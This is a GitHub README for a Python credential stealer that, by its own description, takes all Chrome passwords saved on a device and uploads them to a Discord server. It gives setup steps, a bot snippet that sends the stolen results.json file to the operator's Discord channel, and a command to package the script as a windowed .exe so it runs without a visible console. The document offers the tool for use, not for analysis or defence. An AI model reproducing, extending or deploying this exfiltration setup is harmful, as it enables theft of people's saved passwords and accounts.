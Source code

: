 
# chrome_password_stealer
This python script steals all the chrome password stored in a device ans uploads them into a discord server
## instalation
Download or clone the repository and eecute this command to install all dependencies, if you want to compile to a exe file you will need to install pyinstaller too.
```bash
pip install -r requirements.txt
pip install pyinstaller
```
Before running the code you need to set up some variables
```bash
    @bot.event
    async def on_ready():#when the bot is ready sends the results file to the discord channel
        channel = bot.get_channel("YOUR CHANEL ID")
        if channel:
            await channel.send(file=discord.File('results.json'))
        await bot.close()
    bot.run('YOUR BOT TOKEN') 
```
You need to replace YOUR BOT TOKEN with your actual bot token from discord and YOUR CHANEL ID with the actual chanel id also from discord.

To compile to a .exe file run this command where the chrome.py file is stored
```bash
pyinstaller --onefile --windowed chrome.py
```
## Discord setup
First you need to enable the developer mode for discord. To do so you need to acces the configuration then advanced and enable the developer mode 
![Alt text](https://github.com/lleeerrriiiccc/chrome_password_stealer/blob/main/images/developer_mode.png)